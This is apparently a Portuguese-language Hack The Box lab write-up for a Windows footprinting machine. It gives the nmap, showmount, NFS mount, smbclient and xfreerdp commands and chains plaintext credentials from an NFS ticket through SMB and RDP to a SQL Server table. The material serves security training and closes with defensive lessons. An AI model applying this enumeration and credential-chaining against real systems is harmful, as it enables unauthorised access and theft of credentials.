



# 🏴️ Footprinting Tests - Medium

> **Dificuldade:** Medium | **SO:** Windows | **Plataforma:** CPTS — Estudo de Footprinting

!!! info "Sobre esta página"
    Writeup do laboratório de footprinting (máquina medium) do HackTheBox. Foco em
    enumeração de **NFS**, **SMB**, **RDP** e **SQL Server**, encadeando credenciais
    expostas em arquivos compartilhados até obter as credenciais do usuário `HTB`.

!!! note "Sobre os IPs"
    Por se tratar de um laboratório, o alvo foi reiniciado algumas vezes durante o
    estudo, então o IP muda entre os blocos de saída (`10.129.40.142`,
    `10.129.202.41`, `10.129.58.110`). Todas as saídas foram mantidas exatamente
    como apareceram no terminal.

---

## 📋 Informações Gerais

| Campo | Valor |
|:------|:------|
| **Hostname** | Servidor interno (Windows) |
| **IP** | `10.129.40.142` |
| **SO** | Windows |
| **Dificuldade** | Medium |
| **Plataforma / Módulo** | CPTS — Footprinting |
| **Domínio interno** | `web.dev.inlanefreight.htb` |
| **Data** | 23/06/2026 |
| **Status** | Finalizado |

!!! abstract "Objetivo"
    Servidor com acesso interno à rede. O objetivo é descobrir o máximo de
    informações possível e encontrar maneiras de explorá-lo. O cliente criou um
    usuário `HTB` como prova de acesso — precisamos obter as credenciais dele.

---

## 🔍 Enumeração Inicial

### Portas e Serviços Encontrados

| Porta | Serviço | Versão / Banner |
|:------|:--------|:----------------|
| 111 | rpcbind | RPC portmapper |
| 135 | msrpc | Microsoft RPC |
| 139 | netbios-ssn | NetBIOS Session |
| 445 | microsoft-ds | SMB |
| 2049 | nfs | Network File System |
| 3389 | ms-wbt-server | RDP |
| 5985 | wsman | WinRM |

### Comando de Enumeração

```bash
sudo nmap -sS -Pn -n --disable-arp-ping -D RND:5 10.129.40.142
```

### Saída Relevante (evidência)

```shell
PORT     STATE SERVICE
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

### Descobertas

- [x] Sistema **Windows** com múltiplos serviços: RPC, NetBIOS, SMB, RDP e WinRM
- [x] **NFS (2049)** aberto — incomum em Windows e alvo principal da investigação inicial
- [x] **RDP (3389)** e **WinRM (5985)** disponíveis → potenciais vetores de acesso interativo

---

## 🎯 Técnicas Utilizadas

| # | Técnica | Onde / Como foi aplicada |
|:--|:--------|:-------------------------|
| 1 | Enumeração de NFS | `showmount` + scripts `nfs*` do nmap → share `/TechSupport` |
| 2 | Coleta de credenciais em arquivos | Ticket no NFS revela config SMTP com a senha do `alex` |
| 3 | Enumeração de SMB autenticada | Login como `alex` → share `devshare` → `important.txt` com creds do `sa` |
| 4 | Acesso remoto via RDP | `xfreerdp` como `alex` → desktop do servidor |
| 5 | Acesso administrativo ao SQL Server | Login como `sa` no SSMS via RDP |
| 6 | Exfiltração de credenciais em banco | Tabela `dbo.devsacc` → senha do usuário `HTB` |

---

## 🚀 Exploração / Acesso Inicial

### Vetor de Entrada

| Campo | Valor |
|:------|:------|
| **Vetor** | NFS `/TechSupport` → credenciais encadeadas (SMB → RDP → SQL Server) |
| **Falha explorada** | Compartilhamento NFS aberto a `everyone` com credenciais em texto puro |
| **Ferramentas** | nmap, showmount, mount, smbclient, xfreerdp, SQL Server Management Studio |
| **Acesso obtido como** | `alex` (RDP) → `sa` (SQL Server) |

### Processo

```
1. Enumerar NFS → share /TechSupport aberto a everyone
2. Montar /TechSupport e ler os tickets → config SMTP com senha do alex
3. Logar no SMB como alex → share devshare → important.txt com creds do sa
4. RDP como alex → abrir SQL Server Management Studio
5. Conectar ao SQL Server como sa → explorar databases
6. Ler tabela dbo.devsacc → credenciais do usuário HTB
```

---

### Etapa 1 — NFS (porta 2049): enumeração do share

```bash
showmount -e 10.129.202.41
```

```shell
Export list for 10.129.202.41:
/TechSupport (everyone)
```

Investigação detalhada com scripts NFS do nmap:

```bash
nmap -sV -p 111,2049 --script nfs* 10.129.202.41 -d
```

```shell
PORT     STATE SERVICE  REASON  VERSION
111/tcp  open  rpcbind  syn-ack 2-4 (RPC #100000)
| nfs-statfs:
|   Filesystem    1K-blocks   Used        Available   Use%  Maxfilesize  Maxlink
|_  /TechSupport  25468924.0  15095364.0  10373560.0  60%   16.0T        1023
| nfs-ls: Volume /TechSupport
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID         GID         SIZE   TIME                 FILENAME
| rwx------   4294967294  4294967294  65536  2021-11-11T00:09:49  .
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283649.txt
| rwx------   4294967294  4294967294  0      2021-11-10T15:19:28  ticket4238791283650.txt
| ...                                                             (vários tickets vazios)
| nfs-showmount:
|_  /TechSupport
2049/tcp open  nlockmgr syn-ack 1-4 (RPC #100021)
```

!!! tip "Descoberta"
    Share `/TechSupport` exposto a **everyone** (read-only). A maioria dos
    `ticket*.txt` tem tamanho 0, mas **um** deles tem conteúdo.

### Etapa 2 — Leitura do ticket: credenciais do `alex`

Montei o share e li o ticket com conteúdo:

```bash
sudo mount -t nfs 10.129.202.41:/TechSupport /mnt/TechSupport
sudo cat /mnt/TechSupport/ticket4238791283782.txt
```

```text
Conversation with InlaneFreight Ltd
...
01:42 PM | alex: here it is:

 1 smtp {
 2     host=smtp.web.dev.inlanefreight.htb
 3     #port=25
 4     ssl=true
 5     user="alex"
 6     password="lol123!mD"
 7     from="alex.g@web.dev.inlanefreight.htb"
 8 }
```

!!! success "Credenciais obtidas (NFS → ticket)"
    - **Usuário:** `alex`
    - **Senha:** `lol123!mD`
    - **E-mail:** `alex.g@web.dev.inlanefreight.htb`

### Etapa 3 — SMB (porta 445): credenciais do `sa`

Com a senha do `alex`, enumerei os compartilhamentos SMB:

```bash
smbclient -L //10.129.202.41 -U alex
```



Shares descobertos: `ADMIN$`, `C$`, **`devshare`** ⭐, `IPC$`, `Users`.
Dentro de `devshare`, o arquivo `important.txt`:

```text
sa:87N1ns@slls83
```

!!! success "Credenciais obtidas (SMB → devshare)"
    - **Usuário:** `sa` (SQL Server Admin)
    - **Senha:** `87N1ns@slls83`

### Etapa 4 — RDP (porta 3389): acesso ao desktop como `alex`

```bash
xfreerdp /v:10.129.58.110 /u:alex /p:'lol123!mD' /cert:ignore
```


✅ Acesso bem-sucedido ao desktop remoto. A partir dele, abri o **SQL Server
Management Studio**.

### Etapa 5 — SQL Server: acesso como `sa`

No SSMS, conectei usando as credenciais do `sa` obtidas no SMB:





!!! warning "Tentativa que NÃO funcionou"
    O login direto no banco a partir do Linux com as credenciais não teve sucesso.
    O caminho que funcionou foi **abrir o SSMS via RDP** e conectar como `sa` ali,
    pelo próprio servidor.

---

## 🐚 Shell e Pós-Acesso

Acesso obtido como `alex` via RDP e, em seguida, como administrador (`sa`) dentro
do SQL Server Management Studio.

### Exploração do banco → credenciais do `HTB`

Explorando as databases e tabelas, localizei a tabela `dbo.devsacc`:


```text
user: HTB
password: lnch7ehrdn43i7AoqVPK4zWR
```

!!! success "Objetivo alcançado (tabela dbo.devsacc)"
    - **Usuário:** `HTB`
    - **Senha:** `lnch7ehrdn43i7AoqVPK4zWR`

### Cadeia de credenciais

| Nível | Usuário | Senha | Fonte | Método |
|:------|:--------|:------|:------|:-------|
| 1º | `alex` | `lol123!mD` | NFS (ticket) | RDP |
| 2º | `sa` | `87N1ns@slls83` | SMB (`devshare`) | SQL Server |
| 3º ✅ | `HTB` | `lnch7ehrdn43i7AoqVPK4zWR` | SQL DB (`dbo.devsacc`) | — |

---

## 🚩 Flags

- [x] Credenciais do usuário `HTB` capturadas

| Credencial | Local |
|:-----------|:------|
| `HTB:lnch7ehrdn43i7AoqVPK4zWR` | Tabela `dbo.devsacc` (SQL Server) |

---

## 📖 Resumo Técnico

| Campo | Valor |
|:------|:------|
| **Causa raiz** | Compartilhamento NFS aberto a `everyone` com credenciais em texto puro |
| **Cadeia de ataque** | NFS `/TechSupport` → creds `alex` → SMB `devshare` → creds `sa` → RDP → SQL Server → `dbo.devsacc` → creds `HTB` |
| **Acesso final** | `sa` (admin SQL Server) + credenciais do `HTB` |

---

## 💡 Lições Aprendidas

- **O que funcionou:** encadear credenciais expostas em arquivos — uma pequena
  exposição no NFS abriu SMB, RDP e SQL Server em sequência.
- **O que atrasou:** tentar conectar ao SQL Server direto do Linux; o caminho era
  usar o SSMS **pelo RDP**, no próprio servidor.
- **Comandos para revisar depois:** enumeração de NFS (`showmount -e`, scripts
  `nfs*` do nmap, `mount -t nfs`).
- **Técnicas para estudar melhor:** NFS é frequentemente negligenciado — mesmo
  read-only, um arquivo mal configurado com credenciais é desastroso. Nunca
  armazenar senhas em texto puro (config, tickets, shares, tabelas de banco).
